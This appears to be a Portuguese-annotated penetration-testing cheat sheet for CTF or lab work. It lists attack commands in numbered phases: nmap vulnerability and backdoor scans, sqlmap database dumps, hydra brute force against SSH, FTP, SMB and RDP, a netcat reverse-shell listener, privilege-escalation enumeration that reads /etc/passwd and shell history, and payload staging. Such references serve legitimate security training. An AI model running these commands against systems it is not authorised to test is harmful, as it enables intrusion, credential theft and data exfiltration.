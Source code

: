 # 1° Scan Nmap 

$sudo nmap -Pn -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -sC -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum,http-robots.txt [Target_IP]

$sudo nmap -Pn -p 80 --script http-sql-injection [Target_IP]

$sudo nmap -Pn -p 80 --script http-passwd --script-args http-passwd.root=/test/ [Target_IP]

$sudo nmap -Pn -p 80 --script http-vuln-* [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-proftpd-backdoor [Target_IP] - ProFTPD 1.3.3c

$sudo nmap -Pn -p 21 --script ftp-vsftpd-backdoor [Target_IP] - vsFTPd 2.3.4

#nmap -Pn -p 111 --script nfs-ls,nfs-statfs,nfs-showmount [Target_IP]

#nmap -Pn -p 445 --script smb-enum-shares,smb-enum-users [Target_IP]

#nmap -Pn -p 445 --script smb-vuln-* [Target_IP]

https://www.exploit-db.com

# 2° Scan Dirb/Gobuster

$dirb http://example.com -o dirb-report.txt

$gobuster dir -u http://example.com -x php,html,js,txt,zip -w /usr/share/dirb/wordlists/big.txt

# 3° Scan SQLMap/Burp Suite/ZAP

$sqlmap -u http://Target_IP/login.php --forms --dump

$sqlmap -u http://Target_IP/listproducts.php?cat=1 –-dbs

$sqlmap -u  http://Target_IP/listproducts.php?cat=1 –-dbs -D products –-tables

Burp Suite > Proxy > Intercept > Open Browser > Intercept on

Burp Suite > Intruder > Sniper attack > Positions Add > Payload Type = Simple list

# 4° Brute Force

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 8080 http-get  

# 5° Scan SMB

$enum4linux -a Target_IP | tee enum4linux.log

# 6° Gain Access

http://example.com/login [Exibir código fonte da página]

http://example.com/ftp

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw Target_IP:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

$smbclient //Target_IP/shared/dir

# 7° Reverse Shell

Execute no terminal shell do Kali Linux $nc -lvnp 6666

php, python, nc

https://github.com/pentestmonkey/php-reverse-shell

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://www.sans.org/posters/netcat-cheat-sheet

# 8° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$ls -la /home/user/.ssh

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

https://gtfobins.github.io

https://www.exploit-db.com

# 9° Deploy Payload

$python2 -m SimpleHTTPServer 8000

$python3 -m http-server 8000

$scp payload.sh user@Target_IP:/home/user
